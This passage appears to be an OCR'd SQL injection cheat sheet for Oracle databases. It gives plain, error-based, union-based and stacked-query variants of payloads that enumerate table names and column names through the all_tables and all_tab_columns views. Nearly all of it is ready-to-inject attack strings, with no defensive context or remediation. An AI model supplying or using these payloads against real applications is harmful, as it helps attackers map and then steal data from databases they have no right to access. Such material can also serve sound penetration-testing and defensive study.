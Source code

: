 Normal
```sql
SELECT table_name FROM all_tables;
```
Error based
```sql
' AND (SELECT COUNT(*) FROM all_tables) --
```
Union Based
```sql
' UNION SELECT table_name, NULL FROM all_tables --
```
Stacked Queries:
```sql
; SELECT table_name FROM all_tables; --
```

#### List columns:

Normal
```sql
SELECT column_name FROM all_tab_columns WHERE table_name = 'table_name';
```
Error based
```sql
' AND (SELECT COUNT(*) FROM all_tab_columns WHERE table_name = 'table_name') --
```
Union Based
```sql
' UNION SELECT column_name, NULL FROM all_tab_columns WHERE table_name = 'table_name' --
```
Stacked Queries:
```sql
; SELECT column_name FROM all_tab_columns WHERE table_name = 'table_name'; --
```